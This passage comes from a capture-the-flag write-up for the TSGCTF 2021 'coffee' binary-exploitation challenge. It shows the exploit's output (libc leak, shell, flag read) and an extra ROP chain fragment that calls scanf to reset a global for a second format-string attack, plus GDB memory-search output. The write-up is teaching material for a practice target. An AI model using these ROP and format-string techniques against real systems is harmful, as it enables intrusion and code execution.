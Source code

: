 ```bash
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f5c82d7f000
[*] Switching to interactive mode
$ ls -l
total 28
-r-xr-xr-x 1 root user 16824 Oct  2 04:02 coffee
-r--r--r-- 1 root user    29 Oct  2 04:02 flag-dcf095f41e7bf00fa7e7cf7ef2ce9083
-r-xr-xr-x 1 root user    86 Oct  2 04:02 start.sh
$ cat flag-dcf095f41e7bf00fa7e7cf7ef2ce9083
TSGCTF{Uhouho_gori_gori_pwn}
```


## Extra Credit

### Second `printf`?

_But wait, I want a second `printf` attack!_

This would require resetting the global `x` back to `0xc0ffee` (that is one option).

```python
payload += p64(pop_rsi_r15)
payload += p64(binary.sym.x)
payload += p64(0)
payload += p64(pop_rdi+1) # for scanf
payload += p64(pop_rdi)
payload += p64(binary.search(b'%159s').__next__() + 0x1000)
payload += p64(binary.plt.__isoc99_scanf)
payload += p64(binary.sym._start)
```

> I'm not going to get into the details, this is an exercise left to the reader.  

In short, this will call `scanf` allowing `p.sendline(p64(0xc0ffee))` down script to reset `x`.

Not required for this challenge, but something perhaps to remember for a future challenge.

_Why + 0x1000?_

I found this with GDB/GEF `grep`.  The globals are mirrored to a second page.  You cannot use the first page because it has a whitespace in the address (see below) preventing the entire payload to be read by `scanf`.

```
gef➤  grep %159s
[+] Searching '%159s' in memory
[+] In '/pwd/datajerk/tsgctf2021/coffee/coffee'(0x402000-0x403000), permission=r--
  0x402004 - 0x402009  →   "%159s"
[+] In '/pwd/datajerk/tsgctf2021/coffee/coffee'(0x403000-0x404000), permission=r--
  0x403004 - 0x403009  →   "%159s"
```


### One shot? (well more like 1.5)
